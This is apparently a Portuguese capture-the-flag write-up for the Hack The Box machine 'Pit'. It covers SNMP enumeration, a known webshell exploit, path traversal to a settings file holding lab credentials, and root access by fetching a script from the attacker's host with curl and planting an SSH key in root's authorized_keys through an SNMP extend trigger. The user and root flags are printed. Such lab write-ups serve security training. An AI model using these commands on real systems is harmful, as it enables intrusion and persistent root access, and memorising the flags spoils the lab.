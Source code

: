 # Pit

---

## Enum

---

```python
nmap -T4 -p- -A 10.10.10.241
```

![mclovin](https://user-images.githubusercontent.com/69881757/126364288-bdea78e8-cd22-49f1-b365-7447f877fb6b.png)


- Fazendo a resolução de DNS:

```python
echo "10.10.10.241 pit.htb dms-pit.htb" > /etc/hosts
```

- Agora já sabemos que existem 2 portas udp rodando SNMP:

    ![Untitled](https://user-images.githubusercontent.com/69881757/126364336-59a0f389-2513-4d88-b07f-31c109edf649.png)


    - Procuramos na internet scripts no github que exploram os datas do SNMP:

    [https://github.com/dheiland-r7/snmp](https://github.com/dheiland-r7/snmp)

    ```python
    perl snmpbw.pl pit.htb public 2 1
    ```

---

### Exploration

---

- Entrando podemos enviar um arquivo pra dentro da máquina:
    - Dentro do sistema vai estar exposto a versão do software: 5.1.10, que tem uma webshell pra exploração da falha!
- Procurando pela webshell no `searchsploit`

![backdoor](https://user-images.githubusercontent.com/69881757/126364370-1825b731-22c2-4c88-8630-9352b38bbed0.png)


Rodando esses passos e explorando os diretórios descobrimos que existe um arquivo chamado:

../../../conf/settings.xml

- Dentro deste arquivo podemos encontrar uma página em branco porém com informações na sua source page:

    ![burp](https://user-images.githubusercontent.com/69881757/126364416-7a68725b-c0c2-4af6-a940-2fac3f845c63.png)


    - Senha login → michelle: ied^ieY6xoquu

Agora voltando para `http://pit.htb:9090`

Colocando essas credenciais conseguimos encontrar um painel de login:

![login-sistema](https://user-images.githubusercontent.com/69881757/126364435-8b5a644f-bd34-4acf-bd95-5537e57f4b4c.png


![reverse](https://user-images.githubusercontent.com/69881757/126364464-5e607eb0-ee14-4e57-aad6-c36d9e90381c.png)


User Flag: be77b070e8e1ac7ac499d1412670d215

---

cd /usr/local/monitoring

- Precisamos agora criar uma RSA_Id

```python
ssh-keygen
// colocamos um nome
```

- Criamos um arquivo `[keytosend.sh](http://keytosend.sh)` que terá dentro :

```python
echo "RSA_ID_PUB" > /root/.ssh/authorized_keys
```

- Agora abrimos um servidor em python dentro da pasta na nossa máquina:

```python
python -m SimpleHTTPServer PORT
```

- E rodamos um curl dentro da máquina da vitima:

```python
curl [http://10.10.14.33](http://10.10.14.33):PORT/[keytosend.sh](http://keytosend.sh) -o check.sh 
```

- Precisamos garantir que está no /usr/local/monitoring
    - Ou então dar um :

    ```python
    cp check.sh /usr/local/monitoring 
    ```

![curl](https://user-images.githubusercontent.com/69881757/126364509-533bae40-e5d0-4340-a909-849ed8cb17f0.png)


- Para que esse arquivo seja rodado na máquina precisamos rodar :

```python
snmpwalk -v 1 -c public pit.htb 1.3.6.1.4.1.8072.1.3.2.2.1.2 
```

![snmpwalk](https://user-images.githubusercontent.com/69881757/126364527-f31e07aa-738a-45f9-8c26-76f6e1e79c9e.png)


- ou então :

```python
snmpwalk -m +MY-MIB -v2c -c public 10.10.10.241 nsExtendObjects 
```

![snmpwalk2](https://user-images.githubusercontent.com/69881757/126364579-1a6df957-5e9b-4f17-bd97-83fe6526e759.png)


- Por fim

```python
ssh -i id_rsa root@pit.htb
```

Root Flag: f35dad39922ce883a572c057f672bbd8

---
